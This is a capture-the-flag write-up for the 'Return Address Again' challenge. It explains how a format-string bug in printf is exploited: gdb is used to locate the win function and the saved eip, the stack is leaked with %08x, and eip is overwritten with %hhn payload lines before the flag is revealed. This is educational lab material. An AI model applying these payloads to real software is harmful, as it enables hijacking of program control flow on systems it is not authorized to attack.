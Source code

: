 # Challenge `Return Address Again` Writeup

- Vulnerability: 
  - Format strings
- Where:
  - printf function
- Impact:
  - allows to return to other functions

## Analyzing the server

The main function calls a function which reads the user input to a buffer.

## Exploit

By running `gdb` its possible to find the address of the `win` function. 
Using `info f` we can find the address where `eip` is stored.
Sending the following format string
```
"AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x"
```
and verifying that the 7th register is filled with `41` (the value of `A`) tell us that we control the 7th register.
To call the `win` function we need to overwrite the `eip` value with the address of the `win` function.
However the address of the `eip` can change from machine to machine but the offset between the `buffer` and the `eip` is constant.
So we can locally compute the offset between the `buffer` and the `eip` using `gdb` and then remotely use formatted string to find the address of the `buffer` variable and then compute the address of the `eip` using the offset.
```
# (to get the buffer address)
payload = b'%08x' 
# (to write in eip)
payload =  p32(saved_eip+2) + b'%007$hhn'                        
payload += p32(saved_eip+3) + b'%010$hhn'                   
payload += p32(saved_eip+1) + b'%000120c' + b'%013$hhn'     
payload += p32(saved_eip+0) + b'%000094c' + b'%018$hhn'     
```
Revealing the flag `SSof{Returning_to_the_same_old_things}`

## Implementation

Full implementation can be found [here](return-address-again.py).
